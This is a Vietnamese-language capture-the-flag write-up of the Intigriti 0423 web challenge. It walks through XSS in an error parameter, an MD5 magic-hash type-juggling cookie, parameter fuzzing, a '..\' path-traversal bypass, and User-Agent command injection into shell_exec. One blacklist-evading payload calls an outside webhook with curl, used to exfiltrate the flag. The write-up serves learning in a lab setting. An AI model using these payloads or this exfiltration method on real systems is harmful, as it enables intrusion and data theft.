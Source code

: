 # [Intigriti] Challenge-0423
<p>Đầu tiên, tại /challenge.php nhận về một giao diện trang login. Đề bài đã cho sẵn username=strange và password=monkey để login. Sau khi login, server trả về 2 cookie là username và account_type rồi chuyển hướng về /dashboard.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image.png)

<p>Thay đổi cookie username và account_type bằng cách giá trị khác nhau nhưng không có dấu hiệu gì đặc biệt ở response.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-1.png)

<p>Kiểm tra các thư mục có listing hay không? Kết quả là không được phép truy cập và qua việc này thì phát hiện ra được thông tin web server là nginx/1.24.0. Bây giờ, có 2 hướng để đi tiếp là thử các payload SQL injection ở chức năng login hoặc là tìm các lỗi nằm trên nginx/1.24.0. Tạm thời ưu tiên test chức năng login trước.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-2.png)

<p>Sử dụng kí tự ' thì server trả về response yêu cầu điều hướng tới <code>/index_error.php?error=invalid username or password</code> .</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-3.png)

<p>Sau đó, nhận được response có một dòng comment "Nhớ sử dụng strict comparison" -> Có vẻ như đây là gợi ý trang web bị lỗi type juggling. Các vị trí có khả năng bị type juggling có thể xảy ra là login, cookie. Điều đáng chú ý là giá trị của tham số error có vẻ như được render trực tiếp ra HTML response -> Có khả năng bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-4.png)

<p>Thử &lth1&gta thì xác định HTML injection thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-5.png)

<p>Thử &ltscript&gtalert(origin)&lt/script&gt thì xác định đúng trang web này đã bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-6.png)

<p>Quay về trang login, mình có thắc mắc là server có nhận dữ liệu dưới dạng nào khác ngoài form không ? (ví dụ như là json, xml,...). Sau khi đổi định dạng là json và gửi đi thì phát hiện ra có vẻ như trang này chưa tắt cấu hình display_errors dẫn đến hiển thị waring ở phía client. Dựa vào warning thì xác định được 2 điều: không nhận dữ liệu json khi login và đường dẫn tới trang login là /app/login.php. Vì không nhận dữ liệu json nên giả thuyết sử dụng "psw": true là coi như loại -> Khả năng bị type juggling còn lại là nằm trong cookie.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-7.png)

<p>Giá trị của cookie account_type khá đặc biệt, là một chuỗi không rõ có ý nghĩa gì và khi thay đổi thì response cũng không có dấu hiệu gì đặc biệt. Dựa vào tên "account_type" thì mình đoán có thể giá trị là một mã để phân biệt các loại tài khoản (VIP, Normal,...). Có thể là các giá trị sẽ được hash, encrypt,... để so sánh với giá trị nào đó ở phía server. Liên quan đến hash thì trong type juggling có các chuỗi được gọi là magic hash. Ý tưởng bây giờ là thử các hash phổ biến như MD5, SHA1,.. Tìm chuỗi sau khi hash MD5 có dạng 0e... -> Chọn "etqaTTFXeujI" và response trả về có một element khá đặc biệt. Dựa vào tiêu đề &lt;h3 id=&quot;custom_image.php - try to catch the flag.txt ;)&quot;&gt;A special golden wall just for Premium Users ;) &lt;/h3&gt; có thể đoán rằng truy cập đến /custom_image.php để tìm flag.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-8.png)

<p>Tại /custom_image.php, browser render ra một image là một bức tường màu vàng. Dựa vào tên file thì khả năng cao là endpoint này xử lý gì đó rồi mới trả về nội dung tấm ảnh chứ sử dụng file .php chỉ trả về nội dung ảnh thì không hợp lí cho lắm. Tại vì, hầu hết những ảnh trên trang web này đều được lưu tập trung trong các thư mục cụ thể như là resources hoặc images. Bây giờ, có 2 hướng để tiếp tục là fuzz các parameter tại /custom_image.php hoặc là đi tìm bí mật nào đó được giấu trong ảnh này</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-9.png)

<p>Sử dụng một số tools: exiftool, steghide,... thì kết quả cũng không có gì đáng chú ý -> Hướng này có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-10.png)

<p>Quay lại hướng thứ nhất, sử dụng ffuf để fuzz parameter. Vì trong lần fuzz đầu tiên có khá nhiều kết quả có cùng kích thước nên tạm thời filter các response có cùng size -> Kết quả tìm được một parameter là file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-11.png)

<p>Chưa rõ là tham số file này yêu cầu giá trị là gì. Có thể là đường dẫn tương đối hoặc tuyệt đối. Tuy nhiên, vì đã biết là trang này sẽ hiển thị các warning và error nên mình sẽ cố gắng thử các trường hợp gây ra error/warning để leak thêm thông tin. Thử truyền tham số với kiểu array thì gây ra lỗi thành công. Dựa vào stack trace: lỗi bắt đầu từ dòng code thứ 12 khi sử dụng strpos(Array, "../") -> mình đoán tham số đầu tiên của hàm strpos là biến nhận giá trị của tham số file vì tôi đã truyền vào một mảng nên bị lỗi là đúng và tham số thứ hai là "../" -> Có vẻ như dòng code này dùng để kiểm tra chuỗi "../" gây path traversal trong giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-12.png)

<p>Sử dụng một đường dẫn tuyệt đối có sẵn trên web để test. Kết quả là hiển thị một thông báo lỗi leak ra hàm file_get_content dùng để đọc nội dung từ giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-13.png)

<p>Thử thêm chuỗi "../" thì bị replace đi -> Có vẻ như strpos ở dòng 12 sẽ tìm chuỗi "../" và sau đó thực hiện replace rồi mới đưa vào hàm file_get_content. Chưa rõ là việc replace này có lặp lại nhiều lần hay không nên cần phải test thêm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-14.png)

<p>Chèn thêm các chuỗi "../" vào giữa thì tất cả đều đã bị replace -> Hướng sử dụng "../" có vẻ fail. Tuy nhiên, nếu server sử dụng hệ điều hành Windows thì vẫn còn một cách khác. Đó là sử dụng kí tự \ thay vì /.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-15.png)

<p>Vậy là thành công bypass việc kiểm tra "../" bằng cách sử dụng "..\"</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-16.png)

<p>Tuy nhiên, sử dụng bao nhiêu "..\" cũng không tìm thấy flag.txt -> Có vẻ như thư mục www nằm trong thư mục chứa mã nguồn của trang web chứ không phải nằm trong thư mục gốc</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-17.png)

<p>Thay thế bằng www/web/images/ và thử lại -> Thành công</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-18.png)

<p>Chuyển đổi kiểu dữ liệu thành text/plain để xem nội dung gốc. Có vẻ nội dung gợi ý truy cập đến /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-19.png)

<p>Tương tự, ra được nội dung admin.php. Có một dòng code sử dung shell_exec nhận giá trị từ trường User-Agent trên HTTP Header -> Khả năng bị OS Command injection. Nhìn chung thì việc sử dụng blacklist và sau đó replace trong trường này vẫn bypass được. Thứ nhất, blacklist vẫn thiếu  các kí tự như: ` $ ( ) . Thứ hai, việc replace các chuỗi khớp với phần trong blacklist thì hợp lí với các ký tự lẻ còn với từ 2 kí tự khác nhau trở lên thì hoàn toàn có thể chèn thêm chuỗi ở giữa để bypass.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-20.png)

<p>Đầu tiên, sử dụng payload: `cucurlrl${IFS}https://webhook.site/7d182ba8-11b7-405f-bcdd-ad2ad82e6254` để xem thực sự có tồn tại lệnh curl và server có được phép kết nối ra ngoài internet hay không. Có request gửi tới webhook -> Curl thành công. Tiếp theo, để leak data ra ngoài bằng lệnh curl thì có thể truyền qua tham số hoặc dùng data-binary . Tuy nhiên, cách sử dụng data-binary có vẻ không khả thi.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-21.png)

<p>Ban đầu, khi sử dụng cat để đọc nội dung flag.txt thì nội dung trả về là rỗng. Có vẻ như tên file chứa flag không phải là flag.txt nên thay vào đó mình sử dụng kí tự * để đọc file .txt. -> Lấy được flag thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-22.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeup này giúp ích cho bạn 🔥.</p>
